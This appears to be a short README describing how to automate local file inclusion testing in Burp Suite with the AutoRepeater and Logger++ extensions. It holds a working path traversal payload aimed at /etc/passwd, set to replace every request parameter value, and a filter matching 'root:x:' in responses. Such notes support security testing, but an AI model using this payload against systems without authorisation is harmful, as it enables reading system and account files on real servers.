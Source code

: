 ## Local File Inclusion Automation in Burp Suite 
#### <em>Extentions: AutoRepeater and Logger++</em>


## AutoRepeater Replacement Configuration
 
1) Replace LFI Payload:

    ```
    Type: Request Param Value
    Match: .*
    Replace: ..//..//..//..//..//..//..//..//..//..//..//etc//passwd
    Witch: Replace All
    Regex Match: Enabled
    ```
    
## Logger++ Filter For AutoRepeater Local File Inclusion

    Response.Body CONTAINS "root:x:"
    

<h4><em>Happy Hunting ;) </em><h4>
